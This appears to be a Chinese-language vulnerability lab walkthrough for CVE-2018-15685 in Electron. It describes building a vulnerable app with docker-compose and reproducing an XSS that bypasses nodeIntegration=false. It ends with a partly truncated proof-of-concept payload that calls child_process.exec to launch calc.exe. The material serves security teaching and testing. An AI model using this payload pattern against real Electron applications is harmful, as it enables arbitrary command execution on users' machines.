


# Electron WebPreferences 远程命令执行漏洞（CVE-2018-15685）

Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

参考链接：

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## 编译APP

执行如下命令编译一个包含漏洞的应用：

```
docker-compose run -e PLATFORM=win64 --rm electron
```

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

```
docker-compose run --rm -p 8080:80 web
```

此时，访问`http://your-ip:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

## 复现漏洞

在本地打开应用：



点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交``，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

```
require(\'child_process\').exec(\'calc.exe\')</script>');">
```

可见，calc.exe已成功弹出：


